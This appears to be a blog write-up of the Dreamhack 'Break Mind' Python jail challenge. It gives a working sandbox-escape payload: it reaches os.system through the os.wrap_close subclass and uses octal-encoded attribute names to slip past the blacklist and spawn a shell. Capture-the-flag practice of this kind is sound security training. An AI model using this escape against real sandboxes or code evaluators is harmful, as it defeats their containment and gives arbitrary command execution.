 ```yaml
---
title: "Break Mind writeup"
date: 2025-10-29
description: "dreamhack level 3 pyjail"
tags: ["dreamhack", "ctf", "pyjail"]
---
```


<img src="/blog/dreamhack_break_mind_writeup/images/chall.png" width=400>

We are given a pyjail where our payload is run against an `exec()` call with no length restrictions, and a simple blacklist is also implemented.  

<img src="/blog/dreamhack_break_mind_writeup/images/blacklist.png" width=200>

The more concerning aspect of the jail is the deletion of methods and classes from `__builtins__`, meaning direct access is completely removed.  

<img src="/blog/dreamhack_break_mind_writeup/images/delete.png" width=300>

Since no Dockerfile is provided, we have no way of knowing the exact location of the flag file, so the best option is to spawn a shell.  

A pretty common trick to bypass `__builtins__` nukes is to access subclasses through an attribute chain on a tuple.  

```python
().__class__.__base__.__subclasses__()
```

Our target would be the `os.wrap_close` class, as it contains a reference to `__globals__`, which we can use to execute system commands.  

Since `[]` is blacklisted, we can filter and access the class through dictionary comprehension. I'm also using an f-string to get the class name as `str()` has been nuked.  

```python
{'x':x for x in ().__class__.__base__.__subclasses__() if 'wrap_close' in f'{x}'}.get('x')
```

We can use another attribute chain to get a reference to `os.system` and execute `sh`.  

```python
{'x':x for x in ().__class__.__base__.__subclasses__() if 'wrap_close' in f'{x}'}.get('x').__init__.__globals__.get('system')('sh')
```

Bypassing the blacklist is pretty straightforward, as we can simply use octal encoding and `getattr()`.  

```python
getattr(getattr({'x':x for x in getattr(getattr(getattr((), "\137\137\143\154\141\163\163\137\137"), "\137\137\142\141\163\145\137\137"), "\137\137\163\165\142\143\154\141\163\163\145\163\137\137")() if 'wrap_close' in f'{x}'}.get('x'), '\137\137\151\156\151\164\137\137'), "\137\137\147\154\157\142\141\154\163\137\137").get('\163\171\163\164\145\155')('\163\150')
```

Submitting the payload then spawns a shell which reveals the flag file in the current directory.  


<img src="/blog/dreamhack_break_mind_writeup/images/flag.png" width=600>
